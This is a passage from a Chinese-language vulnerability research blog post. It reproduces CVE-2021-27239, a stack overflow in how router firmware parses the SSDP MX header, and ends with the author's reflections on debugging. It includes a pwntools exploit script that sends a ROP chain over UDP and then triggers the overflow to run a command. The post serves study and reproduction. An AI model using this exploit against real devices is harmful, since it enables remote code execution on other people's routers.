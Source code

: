 ### CVE-2021-27239

同样的固件，在审计上一个洞的时候，还被我发现了一个洞，然后搜索知道，该漏洞已经申请CVE编号，所以就在这里再多扯皮一下，漏洞原理也比较简单。在处理SSDP报文的MX头时，对MX的内容使用strstr和\\r\\n作为区分，导致strncpy第三个参数可控，从而溢出。

![Pasted image 20220819094923.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-be792feb02cd64234092c2e4488e68c0c5e06299.png)

payload和上面那个的调试方法一样，只是转移到了MX之后。  
用了xuanxuan佬的exp

```python
from pwn import *

io = remote("127.0.0.1",1900,typ='udp')

cmd = b'ls'

# throw rop chain to stack first
rop_chain  = p32(0x970A0)
rop_chain += p32(1) * 2
rop_chain += p32(0xBB44)
rop_chain += cmd.ljust(0x400,b"\x00")
rop_chain += p32(1) * 3
rop_chain += p32(0xAE64)
io.send(b'a'*356 + rop_chain)

sleep(0.1)

# trigger stack buffer overflow to rop chain
payload  = b'M-SEARCH * HTTP/1.1 \r\n'
payload += b'Man: "ssdp:discover" \r\n'
payload += b'MX: '
payload += b'a'*139
payload += p32(0x13908)[:-1]
payload += b'\r\n'
io.send(payload)
```

ps: 其中的调试思路非常值得学习，我就懒得写了，博客文章在参考链接内有。

CVE-2019-14363，CVE-2021-27137也是类似的漏洞，问题出在:的边界检测，原理不分析了，肯定是开发的人用了同样的代码。  
可能在不同的代码里面都还有着潜在的类似威胁。

0x03 思考
=======

本来是想看看libupnp的代码，学一下upnp协议的规范，然后就顺便复现了几个libupnp的漏洞，这俩2016的漏洞挺有意思的，不仔细看还发现不了，第二个越界可以说是有些代码习惯确实如此，自己也不会注意，第一个也是同样的，这类看起来不像漏洞的漏洞危害不小于常见的溢出之类的。  
后面的两个upnpCVE完全是顺手分析了一下（反正没有钱买设备，，，，）复现了第一个之后，感觉挺简单的，然后固件版本也比较老，就顺便看了一下ssdp的处理，但后就发现了第二个洞，顺便就复现了两个，然后就写下来了。

这此除了upnp协议学到最多的就是调试了，之前调试环境起不来的时候尝试过patch，但是我发现和xuanxuan大佬比起来，我还是路走窄了，原来为了规避fork之类的，还能直接patche libc。。。。  
加上一些环境变量的处理，还是收获很大。
